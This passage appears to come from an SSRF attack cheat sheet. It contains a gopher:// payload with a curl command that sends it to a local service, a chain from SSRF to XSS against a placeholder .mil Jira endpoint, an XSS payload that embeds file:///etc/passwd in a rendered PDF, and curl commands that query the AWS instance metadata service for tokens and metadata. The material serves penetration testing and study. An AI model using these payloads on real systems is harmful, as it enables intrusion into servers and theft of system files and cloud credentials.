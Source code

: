 Example of payload for `example.lab`: `gopher://127.0.0.1:25/_%00%1D%01%03%03%07%00%01%00%00%00%00%00%00%07example%03lab%00%00%FC%00%01`

```ps1
curl -s -i -X POST -d 'url=gopher://127.0.0.1:53/_%2500%251d%25a9%25c1%2500%2520%2500%2501%2500%2500%2500%2500%2500%2500%2507%2565%2578%2561%256d%2570%256c%2565%2503%256c%2561%2562%2500%2500%25fc%2500%2501' http://localhost:5000/ssrf --output - | xxd
```


## SSRF to XSS 

by [@D0rkerDevil & @alyssa.o.herrera](https://medium.com/@D0rkerDevil/how-i-convert-ssrf-to-xss-in-a-ssrf-vulnerable-jira-e9f37ad5b158)

```bash
http://brutelogic.com.br/poc.svg -> simple alert
https://website.mil/plugins/servlet/oauth/users/icon-uri?consumerUri= -> simple ssrf

https://website.mil/plugins/servlet/oauth/users/icon-uri?consumerUri=http://brutelogic.com.br/poc.svg
```

## SSRF from XSS

### Using an iframe

The content of the file will be integrated inside the PDF as an image or text.

```html
<img src="echopwn" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
```

### Using an attachment

Example of a PDF attachment using HTML 

1. use `<link rel=attachment href="URL">` as Bio text
2. use 'Download Data' feature to get PDF
3. use `pdfdetach -saveall filename.pdf` to extract embedded resource
4. `cat attachment.bin`

## SSRF URL for Cloud Instances

### SSRF URL for AWS

The AWS Instance Metadata Service is a service available within Amazon EC2 instances that allows those instances to access metadata about themselves. - [Docs](http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html#instancedata-data-categories)


* IPv4 endpoint (old): `http://169.254.169.254/latest/meta-data/`
* IPv4 endpoint (new) requires the header `X-aws-ec2-metadata-token`
  ```powershell
  export TOKEN=`curl -X PUT -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" "http://169.254.169.254/latest/api/token"`
  curl -H "X-aws-ec2-metadata-token:$TOKEN" -v "http://169.254.169.254/latest/meta-data"
  ```

